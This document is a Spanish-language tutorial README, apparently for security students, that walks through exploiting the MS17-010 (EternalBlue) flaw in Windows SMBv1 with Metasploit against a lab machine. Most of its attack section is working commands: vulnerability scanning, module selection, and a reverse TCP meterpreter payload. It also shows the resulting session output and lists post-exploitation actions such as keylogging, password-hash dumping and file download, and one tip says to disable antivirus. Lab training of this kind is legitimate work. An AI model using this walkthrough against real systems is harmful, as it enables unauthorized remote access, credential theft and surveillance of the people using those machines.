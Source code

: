 # 🛡️ **Guía para Explotar MS17-010 con Metasploit**
_______________________________________
## ⚠️ Aviso Legal / Disclaimer
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
_______________________________________
Esta guía explica paso a paso cómo explotar la vulnerabilidad MS17-010 (EternalBlue) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
_______________________________________

# 🛡️ **¿Qué es MS17-010 (EternalBlue)?**

- Vulnerabilidad crítica en el protocolo SMBv1 de Windows.
-	Permite ejecución remota de código sin autenticación.
-	Afecta Windows XP, 7, 8, Server 2003, 2008, 2012 (si no está parchado).
-	Fue utilizada por el ransomware WannaCry y NotPetya.
_______________________________________
## 🧰 Requisitos del entorno de pruebas
-	💻 Kali Linux (atacante) con Metasploit instalado.
-	🧱 Máquina vulnerable: Windows 7 SP1 o Windows Server 2008 sin el parche MS17-010.
-	🌐 Ambas máquinas deben estar en la misma red local o virtual interna.
________________________________________
## 🧪 Paso a paso para explotar MS17-010 con Metasploit
________________________________________
**🔹 1. Verifica conectividad y vulnerabilidad**
Desde Kali:
<pre> ping [IP_de_la_víctima] </pre>
Opcional (para verificar si es vulnerable):
<pre> nmap -p 445 --script smb-vuln-ms17-010 <IP_víctima> </pre>
Si dice VULNERABLE, puedes continuar.
________________________________________
**🔹 2. Iniciar Metasploit**
<pre> msfconsole </pre>

**🔹 3. Buscar el exploit**
<pre>search eternalblue</pre>
Deberías ver:
<pre> exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 4. Seleccionar el exploit**
<pre> use exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 5. Ver las opciones requeridas**
<pre> show options </pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar los parámetros**
 ```bash
set RHOST [IP_de_la_víctima]
set LHOST [IP_de_Kali]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
 ```
También puedes usar  ```bash windows/meterpreter/reverse_tcp  ``` si la víctima es de 32 bits.
________________________________________
**🔹 7. Verificar configuración**
<pre> show options </pre>
________________________________________
**🔹 8. Ejecutar el exploit**
<pre> exploit </pre>
________________________________________
## ✅ **Resultado esperado**
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage ...
[*] Meterpreter session 1 opened
```
¡Ahora tienes acceso remoto a la máquina!
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
**Comandos útiles:**
- **sysinfo:**	Información del sistema
- **getuid:**	Usuario actual
- **shell:**	Abre CMD de la víctima
- **screenshot:**	Captura pantalla
- **download archivo:**	Descargar archivos
- **keyscan_start:**	Inicia keylogger
- **hashdump:**	Extraer hashes de contraseñas
________________________________________
## 🔒 Precauciones
-	No usar este exploit en redes reales o con máquinas no autorizadas.
-	EternalBlue afecta SMBv1, un protocolo antiguo y obsoleto.
________________________________________
## ❌ **Problemas comunes**
- Exploit dice "No session created"	Verifica que la víctima sea vulnerable (sin parche KB4012212 o similar)
- LHOST mal configurado	Usa la IP correcta de tu Kali, no 127.0.0.1 ni una IP de otra red
- Antivirus bloquea el payload	Desactívalo (solo en laboratorio)
- Máquina víctima no usa SMBv1	Actívalo o usa una VM XP/7 sin actualizar
________________________________________
## 🧱 **¿Dónde conseguir una máquina vulnerable?**
-	[Windows 7 SP1 sin actualizar y con SMBv1 activado](https://drive.google.com/file/d/11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_/view)
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS17-010](https://www.exploit-db.com/exploits/42315)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/)
-	[Hack The Box](https://www.hackthebox.com/machines/blue)
- [TryHackMe](https://tryhackme.com/room/blue)
